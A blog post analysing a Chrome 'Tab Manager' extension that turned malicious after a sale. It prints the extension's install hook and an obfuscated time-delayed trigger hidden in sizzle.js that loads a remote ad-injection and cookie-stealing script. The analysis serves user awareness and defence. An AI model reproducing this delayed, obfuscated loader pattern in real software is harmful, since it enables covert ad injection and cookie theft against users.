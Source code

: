 ```yaml
---
title: "How a chrome extension turned to the Dark Side"
date: 2018-05-14
tags: ["chrome", "extension", "browser", "malicious extension"]
draft: false
---
```

*This is a short story and malware analysis of a chrome extension that served people well then the developer sell it to the malicious advertisement company.*
### Discovery
As you may know, recently I have published an extension (yes! one more tab manager for the world) [SplitUp! - Tab Manager](https://chrome.google.com/webstore/detail/splitup-tab-manager/bhoodecbejheonelhikcfahgpgahffmf). I was looking for a way to improve it and Chrome Web Store is a great place to see other extensions to get inspired for new ideas. I searched "tab manager" to get a general list, then I saw this extension with 50K+ users, well the name of the extension wasn't so hard to guess "Tab Manager" 🤔 but I guess this is what people search.
![Tab Manager extension screenshot on web store](/images/screenshot.png)
### Bad smell
I checked screenshots and decided read reviews to see what people say about it. Well, they were not great. Apparently, from the latest update, the extension showed some malicious behavior such as injecting ads into users' search result without users' contest.  It seemed like many people have already reported the extension but no action has been taken until recently it has been removed. It says usually it takes 2-3 weeks for the extension to be removed from the store. The good news is that after Google flags an extension as a malware, the extension automatically being removed from the current users' browsers. Before it got deleted, I managed to do some analyzes on it and try to see what exactly this extension tries to achieve and how. Since I wasn't really sure what exactly other than ads injection this extension capable of. I decided to utilize my virtual machine for this and install it there.
![Review about Tab Manager on web store](/images/review1.png)
![Review about Tab Manager on web store](/images/review2.png)
### Deep down to the code
First of all, the extension doesn't act maliciously for a while. Once you install it, it stores the current date in the local storage, here the piece of code that was taken from the source
```
chrome.runtime.onInstalled.addListener(function() {
  chrome.storage.local.set({
    time: new Date().getTime()
  });
});
```
This was interesting, at the beginning I didn't quite get why this weird date saves to the storage and no ads showing in my search result as reported by users and the extension made no network activity. The extension also blocked [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) and [X-Frame-Options](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options) which could mean the extension uses some kind of Command and Control technique to get instruction or get some kind of javascript file from an external source. I decided to dig in a bit more which led me to think that there must some code checking for time or something. 
#### It is there
"Tab Manager" uses React to render UI and Sizzle CSS Selector. After Searching the files for a while for the suspicious behavior I came across abnormal local storage check in sizzle.js :
```
chrome.storage.local.get('time', function (res) {
      if (res.time) {
        var time = (new Date().getTime() - res.time) / 3600000;
        if (time >= 8) {
          slzzle[1][
            (function (nextNode) {
              var attrNames = nextNode[0].attr[index];
              return attrNames.replace(/\>/g, '|').split('|')[1];
            })(slzzle)
          ][
            []
              .concat(appendTypes)
              .concat(nodeType[0].replace('c', nodeType[index][0].toUpperCase()))
              .join('')
          ](element);

          // remove after created for pseudo elements
          element[nodeType[1]].removeChild(slzzle[index].tag);
        }
      }
    });
  })(xpathcurcssesace(document));
```
Boom! this is it! As you see the code checks if a user has been using the extension for a while since I was a new user it behaved as expected. I brought forward my machine's time to a year early and gave a try to extension again.
### Request to the dark side
As expected, the extension started to make an HTTP request to an external source and downloaded a 665KB javascript file which instructs the extension to inject ads, steal and set cookies and so on.
![malicious http request by the extension](/images/httprequest.png)
It is 10913 lines code inside the file and I am not going to into details, a few interesting points are a huge amount of HTTP request and new javascript files are being downloaded based on the website user visits. They made sure that sure will have a native ads experience on every page, hence in every website a new instruction is being downloaded. Every click is recorded in cookies and also send to remote URL. The huge number of websites are covered, from Russian email services mail.ru, yandex.ru to almost all social networks, search engines etc.
![url check for facebook](/images/fb.png)  

In case a user is on the bitconnect registration form it injects ads to the form 
![registration form](/images/registration.png)  

It seems like some domains are ignored such as paypal, google drive and .gov domains. 
![ignored domains](/images/ignoredDomains.png)
## Conclusion
Unfortunately, these days some developers sell their extension after it gains popularity. This is a huge risk since already downloaded extension will get updated with malicious code without user's contest. It has been showing that Chrome Web Store automatic code check is not perfect for detecting this kind of malicious behaviors. The best solution seems to be conscious and use extensions that are come from a reliable source or open-source. Although, this extension was an open-source project and it still managed to inject people's browser activities.


